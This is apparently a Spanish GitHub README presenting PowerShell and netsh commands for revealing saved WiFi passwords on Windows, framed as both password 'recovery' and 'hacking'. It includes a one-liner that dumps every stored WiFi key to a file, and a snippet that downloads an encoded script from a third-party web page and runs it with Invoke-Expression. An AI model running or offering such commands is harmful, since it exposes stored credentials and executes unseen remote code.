 # Wlan-Profiles
Aplicación Wlan Profiles hackear contraseñas de wifi
Cómo ver la contraseña de una red WiFi a la que estás conectado en Windows 
Es muy fácil saber la contraseña de la red WiFi a la que estás conectado en Windows, te explicamos cómo.
Si ya te has conectado con tu PC o portátil Windows a una red con contraseña, y ahora quieres conectar 
también tu smartphone o alguien te pregunta la clave y no la recuerdas, es muy fácil “recuperarla” desde tu ordenador.
![](https://3.bp.blogspot.com/-oPb9wuB5nUk/WjRqB56LuCI/AAAAAAAAI3A/wonBBPq85QEbBQmgxkGoWDTxBNlMa6_mwCLcBGAs/s200/lpericena%2Bwifi.png)
https://lpericena.blogspot.com/2019/03/importar-perfiles-wlan-con-powershell.html
```
(netsh wlan show profiles) | Select-String “\:(.+)$” | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=”$name” key=
clear)}>>wifi.txt
```
![](https://1.bp.blogspot.com/-MklkR5Po3Lk/XIvsQU3GKCI/AAAAAAAAOI4/2-lJrvpaGRYGL0DGn2JOuJJaBx722ITDACLcBGAs/s1600/powershell.png)
```
$url="https://www.jesusninoc.com/2017/01/24/hackear-wifi-con-powershell-script-codificado-en-base64/"
$result = Invoke-WebRequest $url
[String]$execute=$result.AllElements | Where class -eq 'crayon-pre' | %{$_.innerText}
Invoke-Expression "powershell -encodedcommand $execute"
```
![](https://4.bp.blogspot.com/-ShOocj2HPUM/XIuW5KbQhdI/AAAAAAAAOHc/pUdjWkNLFachuykLCPACzlIQGt-YYvtaACLcBGAs/s1600/Screenshot_94.png)
### Otros comandos 
- información del interfas del sistema.
Get-NetAdapter
- Para ver información de la interfaz de red WiFi.
Get-NetAdapter -Name Wi-Fi
- Mostrar cmdlets relacionados con el adaptador de red.
gcm -Noun netadapter | select name, modulename
- Utilizando netsh.
netsh wlan show networks mode=bssid

- https://lpericena.blogspot.com/2019/03/importar-perfiles-wlan-con-powershell.html

Sigueme en las redes Sociales:
- 🌎Blogger          https://lpericena.blogspot.com/
- 💡 Github            https://github.com/Pericena
- 🐤 twitter             https://twitter.com/LPericena

